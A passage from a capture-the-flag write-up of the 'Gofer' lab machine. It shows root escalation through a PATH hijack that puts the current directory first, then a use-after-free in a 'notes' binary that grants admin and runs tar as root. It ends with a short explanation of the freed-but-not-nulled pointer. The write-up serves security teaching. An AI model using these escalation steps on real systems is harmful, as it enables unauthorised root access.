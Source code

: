 

    tbuckley@gofer:/dev/shm$ echo $PATH
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    tbuckley@gofer:/dev/shm$ export PATH=.:$PATH
    tbuckley@gofer:/dev/shm$ echo $PATH
    .:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games



Now the current directory is the first item in the path.

From here, it's just running the following steps:

1.  Start `notes`
2.  Option 1 to create a user.
3.  Option 3 to delete the user.
4.  Option 4 with a note of "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin" to set
    myself admin.
5.  Optionally I can verify that worked with option 2.
6.  Option 8 to run `tar`.

It works:



    Your choice: 8

    Access granted!
    root@gofer:/dev/shm#



I can grab `root.txt`:



    root@gofer:/root# cat root.txt
    1321cf4c************************



## Beyond Root

### notes Binary

I actually love binary exploitation that doesn't rely on looking at
assembly. It's a really fun and beginner accessible way to show binary
exploitation. That said, it's still worth looking at this binary in
assembly. I'll download a copy and fire up Ghidra in [this
video](https://www.youtube.com/watch?v=z4KZCwbTNy0):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=z4KZCwbTNy0){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

Interestingly, the entire binary is basically one function. It has two
variables that store pointers, both of which are initialized to null.
When a user is created, memory from the heap is requested and the first
pointer is set pointing to it. When a user is deleted, that memory is
freed, but the pointer is not nulled. So when option two is called for
user information, it prints out whatever is in that buffer.
